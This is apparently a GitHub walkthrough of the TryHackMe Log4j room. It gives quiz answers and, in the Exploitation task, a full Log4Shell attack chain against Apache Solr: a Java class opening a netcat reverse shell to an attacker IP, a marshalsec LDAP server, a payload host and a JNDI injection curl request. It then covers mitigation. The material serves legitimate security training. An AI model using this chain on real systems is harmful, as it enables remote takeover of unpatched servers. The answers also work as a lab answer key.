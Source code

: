 
# Log4j tryhackme workthrough

This workthrough will show you how to solve this box and the answers of the questions.

## Task 1 CVE-2021-44228 Introduction
no answers needed.

## Task 2 Reconnaissance
- **What service is running on port 8983? (Just the name of the software)**

    Apache Solr

## Task 3 Discovery
- **What is the **-Dsolr.log.dir** argument set to, displayed on the front page?**
![App Screenshot](https://i.imgur.com/ytYzIwZ.png)

    /var/solr/logs

- **Which file includes contains this repeated entry? (Just the filename itself, no path needed)**

    solr.log



- **What "path" or URL endpoint is indicated in these repeated entries?**
![App Screenshot](https://i.imgur.com/rhEdMXP.png)

    /admin/cores

- **Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)**
![App Screenshot](https://i.imgur.com/DmZGmhv.png)

    params

## Task 4 Proof of Concept
Read the instructons thoroughly.


## Task 5 Exploitation
Git clone this repo:
    https://github.com/mbechler/marshalsec

Java 8 required for this. Install java version "1.8.0_181" as folllows.

    Download from here: https://github.com/frekele/oracle-java/releases?page=2

    sudo mkdir /usr/lib/jvm

    cd /usr/lib/jvm

    sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz    # modify as needed

    sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
    sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
    sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

    sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
    sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
    sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws

Install maven.

    sudo apt install maven

Run inside marshalsec directory.

    mvn clean package -DiskpTests

Save the provided exploit inside marshalsec directory and change the attacker IP address as appropriate

    public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

Use this command to compile the exploit.

    javac Exploit.java -source 8 -target 8

Run a LDAP server using this command.

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER-IP:8000/#Exploit"

Use python server to host our exploit.

    python3 -m http.server

And a netcat listner for reverse shell.

    nc -nvlp 9999

After doing all the above correct, make a curl request.

    curl 'http://10.10.223.14:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER-IP:1389/Exploit\}'

you should get a reverse shell :)

It will look similar to this.
![App Screenshot](https://i.imgur.com/Y4JoF0O.png)

- **What is the output of running this command? (You should leave this terminal window open as it will be actively awaiting connections)**

    Listening on 0.0.0.0:1389

## Task 6 Persistence

- **What user are you?**

    solr

## Task 7 Detection

Read the instructons thoroughly.

## Task 8 Bypasses
Read the instructons thoroughly and remind yourself you are a security professional with a strong moral compass.

## Task 9 Mitigation 

- **What is the full path of the specific solr.in.sh file?**

    /etc/default/solr.in.sh

Add **SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"** line at the end of the **solr.in.sh** config,
and repeat the exploit process again (Task 5). This time you will not recieve a reverse shell.
That means log4j has beed mitigrated.

## Task 10 Patching 

Read the instructons thoroughly.

If you're responsible for identifying vulnerable services that use log4j, there is a list of a few majorly affected services/products: 
https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/

## Acknowledgements

 - https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes (local, based off hashes of log4j JAR files)
 - https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d (local, based off hashes of log4j CLASS files)
 - https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228 (listing of vulnerable JAR and CLASS hashes)
 - https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1 (local, hunting for vulnerable log4j packages in PowerShell)
 - https://github.com/darkarnium/CVE-2021-44228 (local, YARA rules)
 - https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
 - https://www.youtube.com/watch?v=7qoPDq41xhQ&t=2s (John Hammond)



